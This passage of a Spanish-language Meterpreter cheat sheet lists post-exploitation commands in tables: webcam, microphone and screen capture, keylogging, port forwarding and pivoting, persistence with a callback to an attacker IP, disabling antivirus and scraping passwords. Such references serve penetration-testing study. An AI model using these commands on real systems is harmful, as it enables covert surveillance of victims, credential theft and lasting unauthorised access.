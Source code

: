 Permiten obtener información visual o auditiva del entorno.

| Comando | Descripción |
|----------|--------------|
| `screenshot` | Captura una imagen de la pantalla del usuario. |
| `record_mic` | Graba audio desde el micrófono. |
| `webcam_list` | Lista las cámaras disponibles. |
| `webcam_snap` | Toma una foto con la cámara. |
| `webcam_stream` | Transmite video en tiempo real (si es posible). |
| `keyscan_start` | Inicia el keylogger. |
| `keyscan_dump` | Muestra las teclas capturadas. |
| `keyscan_stop` | Detiene el keylogger. |

---

## 🌐 Comandos de Red

Relacionados con la conectividad y el reconocimiento del sistema remoto.

| Comando | Descripción |
|----------|--------------|
| `ifconfig` | Muestra las interfaces y direcciones IP. |
| `route` | Muestra o modifica la tabla de rutas. |
| `portfwd add -l <puerto_local> -p <puerto_remoto> -r <host>` | Crea un túnel de red (port forwarding). |
| `arp` | Muestra la tabla ARP del sistema. |
| `netstat` | Lista conexiones de red activas. |
| `getproxy` | Muestra la configuración del proxy. |
| `ping <host>` | Envía un ping desde el sistema comprometido. |

---

## ⚙️ Comandos de Persistencia y Automatización

Permiten mantener el acceso o ejecutar tareas automáticas.

| Comando | Descripción |
|----------|--------------|
| `run persistence -U -i 5 -p 4444 -r <IP>` | Crea persistencia en Windows (se ejecuta al inicio). |
| `run getgui -e` | Habilita el Escritorio Remoto (RDP). |
| `run checkvm` | Detecta si la víctima está en una máquina virtual. |
| `run killav` | Intenta desactivar antivirus. |
| `run post/windows/manage/migrate` | Migra automáticamente a un proceso seguro. |
| `run scraper` | Extrae información útil del sistema (usuarios, contraseñas, historial). |

---